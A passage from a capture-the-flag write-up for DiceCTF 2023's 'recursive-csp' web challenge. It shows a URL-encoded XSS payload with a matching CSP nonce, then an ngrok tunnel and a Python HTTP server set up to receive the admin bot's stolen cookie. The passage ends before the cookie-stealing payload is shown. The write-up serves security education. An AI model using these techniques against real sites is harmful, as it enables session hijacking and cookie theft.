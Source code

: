 ```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:51:09(HKT)]
└> python3 url_encode_payload.py
URL encoded Payload:
https://recursive-csp.mc.ax/?name=%3Cscript%20nonce%3D%22f4dbdf21%22%3Ealert%28document.domain%29%3C/script%3E%3a%76%db%41
```

**Finally, copy and paste that URL encoded payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DiceCTF-2023/images/Pasted%20image%2020230208175246.png)

Boom!! We successfully triggered an alert box, as the nonce value is matched!!

**Now, to retrieve admin bot's cookie, we can modify the XSS payload.**

But first, we need to:

**Setup Ngrok HTTP port forwarding and Python Simple HTTP server:** (Or you can just use [Webhook.site](https://webhook.site/))
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:59:20(HKT)]
└> ngrok http 8000
[...]
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    https://2330-{Redacted}.ap.ngrok.io -> http://localhost:8000
[...]
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:59:57(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
